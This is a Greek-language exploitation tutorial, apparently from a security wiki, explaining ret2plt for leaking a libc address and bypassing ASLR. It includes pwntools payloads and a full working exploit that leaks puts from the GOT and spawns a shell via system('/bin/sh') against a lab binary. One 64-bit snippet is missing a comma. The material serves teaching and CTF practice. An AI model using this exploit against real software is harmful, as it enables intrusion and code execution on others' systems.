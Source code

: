 # Ret2plt

## Βασικές Πληροφορίες

Ο στόχος αυτής της τεχνικής είναι να **διαρρεύσετε μια διεύθυνση από μια συνάρτηση από το PLT** για να μπορέσετε να παρακάμψετε το ASLR. Αυτό συμβαίνει επειδή αν, για παράδειγμα, διαρρεύσετε τη διεύθυνση της συνάρτησης `puts` από την βιβλιοθήκη libc, τότε μπορείτε να **υπολογίσετε πού βρίσκεται η βάση της `libc`** και να υπολογίσετε τις μετατοπίσεις για να έχετε πρόσβαση σε άλλες συναρτήσεις όπως η **`system`**.

Αυτό μπορεί να γίνει με ένα payload `pwntools` όπως ([**από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
Σημειώστε πώς η **`puts`** (χρησιμοποιώντας τη διεύθυνση από το PLT) καλείται με τη διεύθυνση του `puts` που βρίσκεται στο GOT (Global Offset Table). Αυτό συμβαίνει επειδή μέχρι τη στιγμή που η `puts` εκτυπώνει την καταχώρηση του GOT του `puts`, αυτή η **καταχώρηση θα περιέχει την ακριβή διεύθυνση του `puts` στη μνήμη**.

Επίσης, σημειώστε πώς η διεύθυνση του `main` χρησιμοποιείται στην εκμετάλλευση, έτσι ώστε όταν η `puts` ολοκληρώσει την εκτέλεσή της, το **δυαδικό αρχείο καλεί ξανά το `main` αντί να τερματίσει** (έτσι η διαρροή διεύθυνσης θα παραμείνει έγκυρη).

{% hint style="danger" %}
Σημειώστε πώς για να λειτουργήσει αυτό, το **δυαδικό αρχείο δεν πρέπει να έχει μεταγλωττιστεί με PIE** ή πρέπει να έχετε **βρει μια διαρροή για να παρακάμψετε το PIE** ώστε να γνωρίζετε τη διεύθυνση του PLT, GOT και main. Διαφορετικά, πρέπει πρώτα να παρακάμψετε το PIE.
{% endhint %}

Μπορείτε να βρείτε ένα [**πλήρες παράδειγμα αυτής της παράκαμψης εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). Αυτή ήταν η τελική εκμετάλλευση από αυτό το **παράδειγμα**:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## Άλλα παραδείγματα & Αναφορές

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ενεργοποιημένο ASLR αλλά χωρίς PIE, το πρώτο βήμα είναι να γεμίσετε ένα υπερχείλιση μέχρι το byte 0x00 του canary για να καλέσετε στη συνέχεια την puts και να το διαρρεύσετε. Με τον canary δημιουργείται ένα ROP gadget για να καλέσετε την puts και να διαρρεύσετε τη διεύθυνση της puts από το GOT και ένα ROP gadget για να καλέσετε `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bits, ενεργοποιημένο ASLR, χωρίς canary, υπερχείλιση στη στοίβα στη main από μια υπο-συνάρτηση. ROP gadget για να καλέσετε την puts και να διαρρεύσετε τη διεύθυνση της puts από το GOT και στη συνέχεια να καλέσετε ένα one gadget.
